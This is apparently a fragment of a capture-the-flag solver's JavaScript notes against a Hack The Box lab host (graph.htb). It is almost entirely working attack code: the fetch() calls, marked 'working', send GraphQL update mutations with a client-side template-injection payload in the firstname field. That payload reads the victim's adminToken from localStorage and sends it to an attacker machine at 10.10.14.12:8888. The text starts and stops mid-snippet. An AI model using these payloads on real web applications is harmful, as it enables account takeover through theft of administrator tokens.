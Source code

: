 ````js
                newusername: "mark"
        },
        query: "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}"
});
req.send(body);



//working

fetch('http://internal-api.graph.htb/graphql', {
  method: 'POST',
  credentials: 'include',
  mode: 'no-cors',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    variables: {
      newusername: 'Sally',
      id: '6344337392aec7178b077266',
      firstname: `{{constructor.constructor('fetch(\"http://10.10.14.12:8888/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}`,
      lastname: 'asdf'
    },
    query: `
      mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {
          update(newusername: $newusername, id: $id, firstname: $firstname, lastname: $lastname) {  
              __typename
          }
      }
    `
  })
})


//working two
fetch('http://internal-api.graph.htb/graphql', {
  method: 'POST',
  credentials: 'include',
  mode: 'no-cors',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    variables: {
      newusername: 'Alen',
      id: '634410496cc7381528951152',
      firstname: `{{constructor.constructor('fetch("http://10.10.14.12:8888/" + localStorage.getItem("adminToken"))')()}}`,
      lastname: 'asdf'
    },
    query: `
      mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {
          update(newusername: $newusername, id: $id, firstname: $firstname, lastname: $lastname) {  
              __typename
          }
      }
    `
````